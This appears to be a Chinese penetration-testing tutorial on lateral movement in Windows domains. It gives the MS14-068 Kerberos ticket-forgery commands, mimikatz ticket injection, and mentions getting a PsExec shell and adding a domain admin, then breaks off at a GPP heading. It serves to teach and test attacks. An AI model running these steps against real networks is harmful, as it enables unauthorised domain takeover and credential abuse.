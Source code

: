 # 域内横向移动

#### 域内横向移动 <a id="-"></a>

**MS14-068**

**直接访问域控制器的C盘目录：**

![](https://p408.ssl.qhimgs4.com/t01acab0864f1c1ba0a.png)

**查看本机用户信息,记录用户名与SID号**

```text
whoami /all
```

![](https://p408.ssl.qhimgs4.com/t01d0352ef48e8035fa.png)

**进入MS14-068目录，使用以下命令：**

```text
MS14-068.exe -u <userName>@<domainName> -s <userSid> -d <domainControlerAddr> -p <clearPassword>
```

![](https://p408.ssl.qhimgs4.com/t01820af2385334c897.png)

**打开mimikatz，注入票据**

```text
mimikatz # kerberos::purge          //清空当前凭证
mimikatz # kerberos::list           //查看当前机器凭证
mimikatz # kerberos::ptc 票据文件    //将上一步生成的票据注入到内存中
```

![](https://p408.ssl.qhimgs4.com/t01caaa34792f6e175f.png)

**再次列出域控制器的C盘目录：**

![](https://p408.ssl.qhimgs4.com/t01afc2ce9db1d1637c.png)

**使用PSTools目录下的PsExec.exe获取shell:**

![](https://p408.ssl.qhimgs4.com/t0189945770ad09cbfd.png)

**添加域管理员**

![](https://p408.ssl.qhimgs4.com/t01e837eabc5f2e9c0c.png)

**GPP漏洞**

**组策略下发**

管理工具中打开组策略管理：

![](https://p408.ssl.qhimgs4.com/t01d027d973b99740dd.png)
